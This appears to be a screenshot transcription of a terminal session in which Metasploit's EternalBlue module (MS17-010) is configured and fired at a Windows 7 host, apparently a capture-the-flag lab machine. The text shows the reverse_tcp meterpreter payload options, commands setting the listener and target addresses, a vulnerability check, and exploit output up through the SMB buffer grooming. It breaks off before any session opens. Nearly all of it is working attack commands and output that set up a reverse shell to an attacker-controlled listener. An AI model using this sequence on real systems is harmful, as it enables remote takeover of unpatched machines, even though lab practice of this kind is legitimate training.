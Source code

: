 ```bash
                                             2, Windows 7, Windows Embedde
                                             d Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches ex
                                             ploit Target. Only affects Wi
                                             ndows Server 2008 R2, Windows
                                              7, Windows Embedded Standard
                                              7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh,
                                         thread, process, none)
   LHOST     192.168.45.131   yes       The listen address (an interface m
                                        ay be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows 7



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
```